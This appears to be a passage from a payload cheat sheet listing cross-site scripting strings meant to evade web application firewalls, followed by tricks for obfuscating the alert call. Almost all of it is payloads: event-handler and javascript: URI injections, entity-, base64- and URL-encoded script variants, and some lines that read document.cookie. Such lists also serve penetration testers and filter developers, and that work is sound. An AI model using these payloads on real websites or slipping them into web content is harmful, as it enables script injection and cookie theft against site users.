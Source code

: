 • This request will not pass through the WAF:

    ` /?param=`<javascript:alert(document.cookie>`)`

• This request will pass through the WAF and an XSS attack will be
conducted in certain browsers.

    ` /?param=`<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=>  

## WAF ByPass Strings for XSS.

    <Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
    <Video> <source onerror = "javascript: alert (XSS)">
    <Input value = "XSS" type = text>
    <applet code="javascript:confirm(document.cookie);">
    <isindex x="javascript:" onmouseover="alert(XSS)">
    "></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    "><img src="x:x" onerror="alert(XSS)">
    "><iframe src="javascript:alert(XSS)">
    <object data="javascript:alert(XSS)">
    <isindex type=image src=1 onerror=alert(XSS)>
    <img src=x:alert(alt) onerror=eval(src) alt=0>
    <img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
    <iframe/src="data:text/html,<svg onload=alert(1)>">
    <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
    <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
    <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
    <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
    <form><a href="javascript:\u0061lert(1)">X
    </script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
    <style>//*{x:expression(alert(/xss/))}//<style></style> 
    On Mouse Over​
    <img src="/" =_=" title="onerror='prompt(1)'">
    <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
    <script x> alert(1) </script 1=2
    <form><button formaction=javascript&colon;alert(1)>CLICKME
    <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
    <OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> 


## Filter Bypass Alert Obfuscation

    `(alert)(1)`  
    `a=alert,a(1)`  
    `[1].find(alert)`  
    `top[“al”+”ert”](1)`  
    `top[/al/.source+/ert/.source](1)`  
    `al\u0065rt(1)`  
    `top[‘al\145rt’](1)`  
    `top[‘al\x65rt’](1)`  
    `top[8680439..toString(30)](1)`
